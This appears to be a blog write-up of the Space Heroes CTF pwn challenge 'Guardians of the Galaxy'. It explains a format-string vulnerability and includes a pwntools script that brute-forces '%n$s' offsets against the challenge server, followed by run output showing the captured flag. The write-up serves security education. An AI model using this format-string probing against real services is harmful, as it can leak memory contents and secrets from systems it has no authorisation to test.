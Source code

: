 ```yaml
---
title: "shctf/pwn: Guardians of the Galaxy"
date: 2022-04-06 10:33:54
categories:
- ctfs
- shctf
- pwn
tags:
- pwn
- format-string
description: "Learn how to brute force a format string attack on ELF binaries! This is my writeup for the Space Heroes CTF binary/pwn challenge \"Guardians of the Galaxy\"."
permalink: ctfs/shctf/pwn/guardians-of-the-galaxy/
thumbnail: /asset/banner/banner-guardians.png
---
```


<style>
    .box {
        border: 1px solid rgb(23, 25, 27);
        border-radius: 5px;
        background-color: rgb(23, 25, 27);
        padding: 1rem;
        font-size: 90%;
        text-align: center;
        margin-top: 1rem;
        margin-bottom: 1rem;
    }
</style>

<div class="box">
Ronan the Accuser has the Power Stone. Can Starlord find a successful distraction format? <code>nc 0.cloud.chals.io 12690</code><br>
<b>Author</b>: GlitchArchetype<br>
<b>Files</b>: <a href="/asset/shctf/guardians">guardians</a>
</div>

<figure class="highlight console">
  <figcaption><span>checksec.sh</span><a target="_blank" rel="noopener"
      href="https://github.com/slimm609/checksec.sh"><span style="color:#82C4E4">[github link]</span></a></figcaption>
    <table>
        <tr>
            <td class="code">
                <pre><span class="line"><span class="meta prompt_">$ </span><span class="language-bash">checksec guardians</span></span><br><span class="line">[<font color="#277FFF"><b>*</b></font>] &apos;/home/kali/ctfs/shctf/pwn/guardians-of-the-galaxy/guardians&apos;</span><br><span class="line">    Arch:     amd64-64-little</span><br><span class="line">    RELRO:    <font color="#5EBDAB">Full RELRO</font></span><br><span class="line">    Stack:    <font color="#D41919">No canary found</font></span><br><span class="line">    NX:       <font color="#5EBDAB">NX enabled</font></span><br><span class="line">    PIE:      <font color="#5EBDAB">PIE enabled</font></span><br></pre>
            </td>
        </tr>
    </table>
</figure>

Let's look at what happens when you run that binary given to us.

<figure class="highlight console">
    <table>
        <tr>
            <td class="code">
                <pre><span class="line"><span class="meta prompt_">$ </span><span class="language-bash">./guardians</span> </span><br><span class="line">Error, please message admins with &#x27;infinity_error&#x27;.</span><br></pre>
            </td>
        </tr>
    </table>
</figure>


This error is because the binary is probably trying to reference a `flag.txt` within its directory that doesn't exist. Let's create one and run it again:

<figure class="highlight console">
    <table>
        <tr>
            <td class="code">
                <pre><span class="line"><span class="meta prompt_">$ </span><span class="language-bash"><span class="built_in">touch</span> flag.txt &amp;&amp; <span class="built_in">echo</span> <span class="string">&quot;FLAGHERE&quot;</span> &gt; flag.txt</span></span><br><span class="line"><span class="meta prompt_">$ </span><span class="language-bash">./guardians</span></span><br><span class="line">Does Quill manage to win the dance battle?</span><br></pre>
            </td>
        </tr>
    </table>
</figure>

There, we got it to work locally. Since we know that this is problem a format string vulnerability from the "find a successful distraction format" part of the description, let's assume that the vulnerability is it writing our input to the stack with `printf()`. We will need to work our way up the stack with the format `%n$s`, where `n` is the decimal index of the argument you want, and `s` is the `printf()` specifier for a **string of characters**. I wrote this Python3/pwntools script here to achieve this loop:

{% codeblock guardians.py lang:py https://gist.github.com/jktrn/abced39a897e40c196dc2eb3348e1db9 github gist link %}
from pwn import *
for i in range(0, 100):
        p = remote('0.cloud.chals.io', 12690)  
        log.info(f"Trying offset {i}...")
        p.sendline(bytes(('%' + str(i) + '$s'), encoding='utf-8'))

        output = p.recvS()
        if 'shctf' in output:
                log.success(output)
                break
        p.close()
{% endcodeblock %}

As you can see, it will send a UTF-8 encoded format string, with `str(i)` being the looping variable. If its output contains the flag, the loop breaks and the script will stop. Let's run it:

<figure class="highlight console">
    <table>
        <tr>
            <td class="code">
                <pre><span class="line"><span class="meta prompt_">$ </span><span class="language-bash">python3 exp.py</span></span><br><span class="line">[<span style="color:#47D4B9"><b>+</b></span>] Opening connection to 0.cloud.chals.io on port 12690: Done</span><br><span class="line">[<span style="color:#277FFF"><b>*</b></span>] Trying offset 0...</span><br><span class="line">[<span style="color:#277FFF"><b>*</b></span>] Closed connection to 0.cloud.chals.io port 12690</span><br><span class="line">[<span style="color:#47D4B9"><b>+</b></span>] Opening connection to 0.cloud.chals.io on port 12690: Done</span><br><span class="line">[<span style="color:#277FFF"><b>*</b></span>] Trying offset 1...</span><br><span class="line">[<span style="color:#277FFF"><b>*</b></span>] Closed connection to 0.cloud.chals.io port 12690</span><br><span class="line">[<span style="color:#47D4B9"><b>+</b></span>] Opening connection to 0.cloud.chals.io on port 12690: Done</span><br><span class="line">[<span style="color:#277FFF"><b>*</b></span>] Trying offset 2...</span><br><span class="line">[<span style="color:#277FFF"><b>*</b></span>] Closed connection to 0.cloud.chals.io port 12690</span><br><span class="line">[<span style="color:#47D4B9"><b>+</b></span>] Opening connection to 0.cloud.chals.io on port 12690: Done</span><br><span class="line">[<span style="color:#277FFF"><b>*</b></span>] Trying offset 3...</span><br><span class="line">[<span style="color:#277FFF"><b>*</b></span>] Closed connection to 0.cloud.chals.io port 12690</span><br><span class="line">[<span style="color:#47D4B9"><b>+</b></span>] Opening connection to 0.cloud.chals.io on port 12690: Done</span><br><span class="line">[<span style="color:#277FFF"><b>*</b></span>] Trying offset 4...</span><br><span class="line">[<span style="color:#277FFF"><b>*</b></span>] Closed connection to 0.cloud.chals.io port 12690</span><br><span class="line">[<span style="color:#47D4B9"><b>+</b></span>] Opening connection to 0.cloud.chals.io on port 12690: Done</span><br><span class="line">[<span style="color:#277FFF"><b>*</b></span>] Trying offset 5...</span><br><span class="line">[<span style="color:#277FFF"><b>*</b></span>] Closed connection to 0.cloud.chals.io port 12690</span><br><span class="line">[<span style="color:#47D4B9"><b>+</b></span>] Opening connection to 0.cloud.chals.io on port 12690: Done</span><br><span class="line">[<span style="color:#277FFF"><b>*</b></span>] Trying offset 6...</span><br><span class="line">[<span style="color:#47D4B9"><b>+</b></span>] Does Quill manage to win the dance battle?</span><br><span class="line">    </span><br><span class="line">    Oh no, Ronano has seen through the distraction!</span><br><span class="line">    shctf&#123;im_distracting_you&#125;</span><br></pre>
            </td>
        </tr>
    </table>
</figure>


<a href="https://info.flagcounter.com/8Xkk"><img src="https://s01.flagcounter.com/count2/8Xkk/bg_212326/txt_C9CACC/border_C9CACC/columns_3/maxflags_12/viewers_3/labels_0/pageviews_1/flags_1/percent_0/" alt="Free counters!" border="0"></a>
